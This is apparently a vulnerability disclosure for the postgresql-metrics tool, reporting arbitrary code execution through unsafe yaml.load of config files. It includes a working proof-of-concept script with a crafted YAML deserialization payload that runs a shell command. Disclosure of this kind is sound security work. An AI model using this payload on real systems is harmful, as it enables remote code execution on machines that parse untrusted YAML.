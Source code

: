 # Description
Tool that extracts and provides metrics on your PostgreSQL database
* **Vulnerability discription**
unsafe loading of data by the yaml.load function leading to Arbitrary code execution.
# Proof of Concept
* Vulnerable code part 
```python
read_config_dict = yaml.load(f)
#https://github.com/spotify/postgresql-metrics/blob/master/postgresql_metrics/common.py#L116
```
1. run exploit.py
```python
# exploit.py
import os
#SETUP
os.system('git clone https://github.com/spotify/postgresql-metrics')
os.system('pip install -r postgresql-metrics/requirements.txt')
os.system('python postgresql-metrics/setup.py install')
import postgresql_metrics.common as ppyfile
#PAYLOAD SECTION
exploit = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
os.system('rm -r exploit.yml')
open('exploit.yml','w+').write(exploit)
#RUN THE EXPLOIT ON THE VULNERABLE PART
ppyfile.find_and_parse_config('exploit.yml')
os.system('rm -r exploit.yml')
```
![]()
